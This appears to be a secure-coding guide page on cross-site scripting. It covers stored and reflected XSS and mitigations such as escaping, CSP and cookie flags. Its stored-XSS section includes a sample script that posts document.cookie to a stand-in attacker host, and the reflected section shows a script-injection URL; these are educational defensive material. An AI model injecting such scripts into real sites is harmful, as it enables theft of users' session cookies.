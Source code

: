 ```yaml
---
title: "XSS (Cross-Site Scripting)"
draft: false
weight: 999
---
```


Cross-site scripting is a form of cyber-attack where the attacker tricks a user into executing a malicious script.
The attacks can lead to the disclosure of the user's cookie information or manipulation of the web page content.

## Stored XSS Attacks

Stored XSS attacks occur when the attacker storing a malicious JavaScript on the target website.
This malicious input is saved into the website’s database and is executed when other users access the website.

For instance, in a chat application, an attacker could post the following:

```html
<script>alert("Hacked!");</script>
```

If the website does not properly escape or sanitize the input, any user who accesses the chat application and views the attacker's post will inadvertently execute this script.
While an alert may seem harmless, attackers could execute scripts like the following to send a user's cookies to the attacker:

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://attacker.example.com/steal-data", true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send("cookie=" + document.cookie);
</script>
```

## Reflected XSS Attacks

Reflected XSS attacks are different from stored XSS attacks in that the malicious script is not stored on the target website.
Its impact is generally more limited than stored XSS.

As an example, an attacker might send phishing emails or messages with a link like this:

```html
https://victim.example.com/search?q=<script>alert('Hacked!');</script>
```

If the target website doesn't properly handle parameters, the script might be executed.
Just like with stored XSS, the script executed is not limited to displaying an alert.
There are various techniques, such as embedding the target site inside an iframe on a fake website to steal session IDs or altering forms to send information to the attacker.

## Mitigations

The main cause of XSS vulnerabilities is a failure to escape special characters during HTML rendering.
As a fundamental measure, it is necessary to systematically escape special characters within element content and attribute values, as shown in the table below:

| Special Character | Escape Code |
| ----------------- | ----------- |
| \<                 | `&lt;`      |
| >                 | `&gt;`      |
| &                 | `&amp;`     |
| "                 | `&quot;`    |
| '                 | `&#39;`     |

Additionally, the following measures are recommended:

- Returning response headers that enable XSS filters through web server configuration.
  - Content Security Policy (CSP): A security policy controlled through server response headers, restricting external content loading and script execution.
  - X-XSS-Protection: This is now deprecated as different or older browsers have varied implementations or lack support, CSP is recommended.
- Sanitizing input values (e.g., allow only numbers, letters, character limits).
- Thoughtful cookie settings:
  - HttpOnly: Setting that prevents JavaScript from reading cookies.
  - SameSite: Setting that prevents cookies from being read through requests from different domains. Since there are different types of restrictions, it's necessary to choose the appropriate setting when using it.

## References

- 徳丸 浩、「体系的に学ぶ 安全なWebアプリケーションの作り方 第2版」
